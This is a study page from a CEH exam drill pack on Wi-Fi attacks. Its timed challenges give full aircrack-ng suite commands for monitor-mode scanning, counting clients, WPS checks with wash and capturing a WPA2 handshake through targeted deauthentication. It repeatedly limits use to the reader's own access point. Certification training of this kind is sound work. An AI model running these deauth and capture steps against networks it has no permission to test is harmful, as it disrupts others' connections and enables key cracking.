

repository: morandeirachema/CyberCerts · page: certs/ceh/practical/drills/07-wireless/index.html · generator: mkdocs

# Drill Pack 07 — Wireless

> ⚠ **STOP — legality & hardware first.** Wi-Fi attacks transmit on **regulated radio spectrum** and touch other devices' traffic. Capturing handshakes, deauthenticating clients, or probing WPS against a network **you do not own or have written permission to test is a crime** almost everywhere. **Only ever target your OWN AP/router and your OWN client devices**, on a throwaway SSID you set up for this. Not a neighbour's, an employer's, a café's — ever.
>
> The live drills need a **USB Wi-Fi adapter that supports monitor mode + packet injection** (Atheros AR9271, Ralink RT3070/RT5370, Realtek RTL8812AU). A VM's virtual NIC **cannot** do this — USB-passthrough a physical adapter. **No adapter or no test AP? Every drill is still doable:** use the aircrack-ng **sample capture `wpa.cap`** (ESSID `test`, BSSID `00:14:6C:7E:40:80`, PSK **`biscotte`**) — grab it from the aircrack-ng *Cracking WPA* tutorial (see [Sources](#sources)) and follow each drill's **⚡ faster / no-adapter** note.
>
> Recipes: [`../challenge-playbooks.md`](../challenge-playbooks.md) (wireless section). Theory: [Module 16 — Hacking Wireless Networks](../../modules/16-hacking-wireless-networks/README.md). Tool course: [`../../kali/13-wireless.md`](../../kali/13-wireless.md).

Score yourself: **✅ under target time / ⚠ over time / ❌ needed the solution**. Set placeholders — `AA:BB:CC:DD:EE:FF` = your AP's BSSID, `6` = your channel, `wlan0` = your adapter, `11:22:33:44:55:66` = your own client's MAC. Re-drill anything not ✅.

---

### Challenge 1 — Monitor mode & scan the air ⏱ 6 min
**Q:** Put your adapter into monitor mode and scan. What are the **BSSID, ESSID, and channel** of your own AP?
<details><summary>Solution</summary>

```bash
iwconfig                           # find the wireless interface (often wlan0)
sudo airmon-ng check kill          # stop NetworkManager/wpa_supplicant fighting for the card
sudo airmon-ng start wlan0         # -> creates wlan0mon (monitor mode)
iwconfig                           # confirm it says  Mode:Monitor
sudo airodump-ng wlan0mon          # survey ~30s, then Ctrl+C
```

**You should see** a live table; the top half lists APs. Find **yours by ESSID (name)**:
```
BSSID              PWR  CH  ENC   ESSID
AA:BB:CC:DD:EE:FF  -42   6  WPA2  HomeNet
```
**Answer** = your AP's **BSSID** (its MAC), **ESSID** (name), and **CH** — e.g. `AA:BB:CC:DD:EE:FF` / `HomeNet` / `6`. Write all three down; the next drills need them.

**⚡ faster / no-adapter:** read the same fields straight from the sample capture — `aircrack-ng wpa.cap` reports ESSID **`test`**, BSSID **`00:14:6C:7E:40:80`**, `WPA (1 handshake)`. Losing internet after `check kill` is expected; you restore it in the cleanup at the end.
</details>

### Challenge 2 — Count associated clients ⏱ 5 min
**Q:** How many client devices are currently **associated** to your AP?
<details><summary>Solution</summary>

```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
# -c = your channel, --bssid = your AP only. Watch the LOWER table.
```

**You should see** the bottom (STATION) table; the BSSID column says which AP each client is on:
```
BSSID              STATION            PWR   Frames
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -48    120
AA:BB:CC:DD:EE:FF  77:88:99:AA:BB:CC  -61     30
```
**Answer** = the number of STATION rows whose BSSID equals **your** AP (here **2**). Rows with BSSID `(not associated)` are devices probing but **not** connected — don't count them.

**⚡ faster / no-adapter:** the sample cap contains **one** associated station (the client that completed the handshake). List the MACs that spoke EAPOL with `tshark -r wpa.cap -Y eapol -T fields -e wlan.sa | sort -u` (you'll see the AP and its one client).
</details>

### Challenge 3 — Is WPS enabled? ⏱ 6 min
**Q:** Is **WPS** (Wi-Fi Protected Setup) enabled on your AP — and is it locked?
<details><summary>Solution</summary>

```bash
sudo wash -i wlan0mon        # lists ONLY WPS-capable APs it can hear
```

**You should see** a WPS-only table:
```
BSSID              Ch  dBm  WPS  Lck  ESSID
AA:BB:CC:DD:EE:FF   6  -45  2.0  No   HomeNet
```
**Answer** = if **your BSSID appears** in wash's list, WPS is **ENABLED**. Read the `Lck` column: `No` = unlocked, so an online PIN brute (`reaver`/`bully`) or Pixie-Dust could proceed; `Yes` = the AP locks WPS after failed PINs (the secure behaviour). If your AP is **absent**, WPS is disabled — the correct hardening.

**⚡ faster / no-adapter:** `wash` needs a live radio — a static `.cap` carries no WPS state. Cross-check on the router's admin page under **Wireless → WPS**; if it's on for a real router, **disable it**.
</details>

### Challenge 4 — Capture the WPA2 4-way handshake ⏱ 10 min
**Q:** Capture a WPA2 **4-way handshake** from your own AP.
<details><summary>Solution</summary>

**Terminal 1** — lock onto your AP + channel and write the capture:
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon
# saves cap-01.cap; watch the TOP-RIGHT of the header
```
**Terminal 2** — nudge **your own** client to reconnect with a targeted deauth:
```bash
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
# -a = AP BSSID   -c = YOUR client's MAC (from Challenge 2)   --deauth 5 = keep it small
```

**You should see** aireplay print `Sending 64 directed DeAuth ... [ACKs]`; a second later airodump's header flips to `WPA handshake: AA:BB:CC:DD:EE:FF`. `Ctrl+C` to stop.
**Answer** = the file `cap-01.cap` now holding the handshake — the artifact you crack next.

**⚡ faster / no-adapter:** skip capture and use the ready-made `wpa.cap` for the crack drills. With an adapter, `sudo wifite --kill` automates monitor→scan→deauth→capture. Always target your **own** client with `-c` and keep `--deauth` low — don't broadcast.
</details>
